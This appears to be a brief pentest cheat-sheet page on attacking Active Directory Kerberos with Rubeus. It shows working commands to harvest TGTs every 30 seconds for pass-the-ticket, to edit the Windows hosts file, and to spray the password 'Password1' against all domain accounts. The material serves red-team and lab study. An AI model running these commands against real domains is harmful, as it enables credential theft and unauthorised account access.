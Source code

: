 # Harvesting Tickets w/ Rubeus

Harvesting gathers tickets that are being transferred to the KDC and saves them for use in other attacks such as the pass the ticket attack.

The following payload will tells Rubeus to harvest TGT every 30s
```cmd
Rubeus.exe harvest /interval:30
```

#### Brute-Forcing / Password-Spraying
***Brute-Forcing***:Try a bunch of password for one user account  
***Password-Spaying***:Try one password for a bunch of known user account

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file, as you can do with /etc/host.  
```cmd
echo <IP> <DOMAIN.local> >> C:\Windows\System32\drivers\etc\hosts 
```

Since we are logged into the machine, the following command will find every user account and spray the given password against them all.
```cmd
Rubeus.exe brute /password:Password1 
```
or
```cmd
Rubeus.exe brute /password:Password1 /noticket
```
If there is a match, it will return the .kirbi TGT for that user, it looks like that : 
[sortie_spray_kerbrute](images/sortie_spray_kerbrute.png)
